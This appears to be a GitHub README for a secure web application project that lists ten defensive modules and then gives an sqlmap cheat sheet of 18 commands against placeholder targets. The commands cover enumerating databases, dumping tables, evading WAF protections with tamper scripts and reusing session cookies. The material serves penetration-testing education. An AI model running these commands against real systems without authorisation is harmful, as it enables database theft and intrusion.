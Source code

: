 The Importance of Secure Web Applications in Cybersecurity

In a digital era dominated by increasingly sophisticated cyberattacks, the security of web applications has become a crucial component of data protection and online infrastructure security. Web applications are often targeted by cyber threats such as SQL Injection, Cross-Site Scripting (XSS), brute force attacks, and the exploitation of unpatched vulnerabilities.

A Secure Web Application provides a protected environment through robust authentication, advanced encryption, access control, and threat detection. This project was created to demonstrate and implement best practices in web security, using a set of 10 essential modules, each playing a critical role in safeguarding online applications.

1. Secure Login System
2. Web Application Firewall (WAF) Simulation
3. Vulnerability Reporting Platform
4. Data Encryption/Decryption Tool
5. User Role-Based Access Control System
6. Secure File Storage System
7. Cyber Attack Simulation and Logging
8. Secure Comment System
9. Password Manager
10. Secure Messaging System


![Sqlmap](sqlmap.png)

Sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 
It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, 
over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

Basic command:

1. sqlmap -u "http://target.com/vulnerable.php?id=1" ( basic command to start testing if a website is vulnerable to SQL Injection.)

2. sqlmap -u "http://localhost/verifyLogin.php" --data="username=admin&password=12345"  ( Specifying request methods )

3. sqlmap -u "http://target.com/page.php?id=1" ( Automatically detecting and testing parameters )

4. sqlmap -u "http://target.com/page.php?id=1" --dbs ( To list available databases on the target server )

5. sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables ( After obtaining the database, you can list its tables )

6. sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns ( To list the columns of a table within a database )

7. sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump ( extract data from a table )

8. sqlmap -u "http://target.com/page.php?id=1" --random-agent ( If the target site has a WAF or other protections, a custom user-agent can help )

9. sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment ( To bypass WAF protections, you can use the --tamper option )

10. sqlmap -u "http://target.com/page.php?id=1" --level=5 --risk=3 (You can increase the testing intensity by using the --level and --risk options)

    --level: sets the level of testing (higher means more types of attacks).
    --risk: sets the risk of testing (higher means more aggressive testing).

11. sqlmap -u "http://target.com/page.php?id=1" --cookie="PHPSESSID=12345abcde" ( To inject an authenticated session, you can add a cookie to your request )

12. sqlmap -u "http://target.com/page.php?id=1" -D database_name --dump --output-dir=/path/to/save/results ( To save the results to an output file )

13. sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080" ( To intercept requests and analyze them, you can use a proxy (e.g., Burp Suite )

14. sqlmap -u "http://target.com/page.php?id=1" --verbose=3 ( To get detailed information about each step SQLMap takes )

15. sqlmap -u "http://target.com/page.php?id=1" --technique=T ( To test if the site is vulnerable to time-based SQL Injection )

16. sqlmap -u "http://target.com/page.php?id=1" --technique=BEUSTQ ( Specifying SQL Injection type )

17. sqlmap -u "http://target.com/page.php?id=1" --auth-type=basic --auth-cred="username:password" ( To test an application that requires authentication (basic HTTP authentication)
                                                                                                   
18. sqlmap -u "http://target.com/page.php?id=1" --threads=10 ( To speed up tests on large websites, you can use multiple threads )                                                                                             
